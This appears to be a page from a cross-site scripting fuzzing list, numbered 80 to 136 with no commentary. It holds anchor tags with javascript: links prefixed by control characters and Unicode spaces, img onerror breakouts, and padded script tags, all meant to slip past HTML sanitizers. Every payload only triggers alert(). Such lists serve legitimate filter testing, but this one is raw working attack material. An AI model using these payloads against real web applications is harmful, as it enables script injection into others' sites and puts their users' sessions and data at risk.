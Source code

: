 <a href="\x09javascript:javascript:alert(80)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x8Ajavascript:javascript:alert(81)" id="fuzzelement1">test</a>
<a href="\x14javascript:javascript:alert(82)" id="fuzzelement1">test</a>
<a href="\x19javascript:javascript:alert(83)" id="fuzzelement1">test</a>
<a href="\xE2\x80\xAFjavascript:javascript:alert(84)" id="fuzzelement1">test</a>
<a href="\x1Fjavascript:javascript:alert(85)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x81javascript:javascript:alert(86)" id="fuzzelement1">test</a>
<a href="\x1Djavascript:javascript:alert(87)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x87javascript:javascript:alert(88)" id="fuzzelement1">test</a>
<a href="\x07javascript:javascript:alert(89)" id="fuzzelement1">test</a>
<a href="\xE1\x9A\x80javascript:javascript:alert(90)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x83javascript:javascript:alert(91)" id="fuzzelement1">test</a>
<a href="\x04javascript:javascript:alert(92)" id="fuzzelement1">test</a>
<a href="\x01javascript:javascript:alert(93)" id="fuzzelement1">test</a>
<a href="\x08javascript:javascript:alert(94)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x84javascript:javascript:alert(95)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x86javascript:javascript:alert(96)" id="fuzzelement1">test</a>
<a href="\xE3\x80\x80javascript:javascript:alert(97)" id="fuzzelement1">test</a>
<a href="\x12javascript:javascript:alert(98)" id="fuzzelement1">test</a>
<a href="\x0Djavascript:javascript:alert(99)" id="fuzzelement1">test</a>
<a href="\x0Ajavascript:javascript:alert(100)" id="fuzzelement1">test</a>
<a href="\x0Cjavascript:javascript:alert(101)" id="fuzzelement1">test</a>
<a href="\x15javascript:javascript:alert(102)" id="fuzzelement1">test</a>
<a href="\xE2\x80\xA8javascript:javascript:alert(103)" id="fuzzelement1">test</a>
<a href="\x16javascript:javascript:alert(104)" id="fuzzelement1">test</a>
<a href="\x02javascript:javascript:alert(105)" id="fuzzelement1">test</a>
<a href="\x1Bjavascript:javascript:alert(106)" id="fuzzelement1">test</a>
<a href="\x06javascript:javascript:alert(107)" id="fuzzelement1">test</a>
<a href="\xE2\x80\xA9javascript:javascript:alert(108)" id="fuzzelement1">test</a>
<a href="\xE2\x80\x85javascript:javascript:alert(109)" id="fuzzelement1">test</a>
<a href="\x1Ejavascript:javascript:alert(110)" id="fuzzelement1">test</a>
<a href="\xE2\x81\x9Fjavascript:javascript:alert(111)" id="fuzzelement1">test</a>
<a href="\x1Cjavascript:javascript:alert(112)" id="fuzzelement1">test</a>
<a href="javascript\x00:javascript:alert(113)" id="fuzzelement1">test</a>
<a href="javascript\x3A:javascript:alert(114)" id="fuzzelement1">test</a>
<a href="javascript\x09:javascript:alert(115)" id="fuzzelement1">test</a>
<a href="javascript\x0D:javascript:alert(116)" id="fuzzelement1">test</a>
<a href="javascript\x0A:javascript:alert(117)" id="fuzzelement1">test</a>
`"'><img src=xxx:x \x0Aonerror=javascript:alert(118)>
`"'><img src=xxx:x \x22onerror=javascript:alert(119)>
`"'><img src=xxx:x \x0Bonerror=javascript:alert(120)>
`"'><img src=xxx:x \x0Donerror=javascript:alert(121)>
`"'><img src=xxx:x \x2Fonerror=javascript:alert(122)>
`"'><img src=xxx:x \x09onerror=javascript:alert(123)>
`"'><img src=xxx:x \x0Conerror=javascript:alert(124)>
`"'><img src=xxx:x \x00onerror=javascript:alert(125)>
`"'><img src=xxx:x \x27onerror=javascript:alert(126)>
`"'><img src=xxx:x \x20onerror=javascript:alert(127)>
"`'><script>\x3Bjavascript:alert(128)</script>
"`'><script>\x0Djavascript:alert(129)</script>
"`'><script>\xEF\xBB\xBFjavascript:alert(130)</script>
"`'><script>\xE2\x80\x81javascript:alert(131)</script>
"`'><script>\xE2\x80\x84javascript:alert(132)</script>
"`'><script>\xE3\x80\x80javascript:alert(133)</script>
"`'><script>\x09javascript:alert(134)</script>
"`'><script>\xE2\x80\x89javascript:alert(135)</script>
"`'><script>\xE2\x80\x85javascript:alert(136)</script>
